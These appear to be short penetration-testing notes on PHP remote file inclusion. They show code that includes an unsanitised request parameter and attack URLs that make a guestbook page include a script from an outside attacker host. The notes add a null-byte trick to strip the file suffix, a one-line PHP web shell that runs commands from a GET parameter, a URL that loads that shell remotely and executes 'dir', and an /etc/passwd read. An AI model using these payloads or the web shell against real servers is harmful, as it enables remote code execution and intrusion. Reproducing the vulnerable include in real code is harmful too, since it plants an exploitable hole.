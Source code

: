 # 2 Remote File Inclusion

---

requires allow_url_fopen=On and allow_url_include=On

```

$incfile = $_REQUEST["file"];  
include($incfile.".php");  

```

- **original**
    
    ```
    http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=FR&Submit=Submit
    ```
    
- **modified**
    
    ```
    http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php&Submit=Submit
    ```
    

We will surely have a problem trying to execute evil.txt.php, so we can use a nullbyte so that the .php does not appear


```
10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php%00&Submit=Submit
```

## web shell rfi

```
cat shell.php
<?=`$_GET[0]`?>
```

```
http://10.10.10.151/blog/?lang=//10.10.14.23/Public/shell.php&0=dir
```

# 3 Common obstacles

---

- just the path
    
    ```
        filename=/etc/passwd
    ```
    
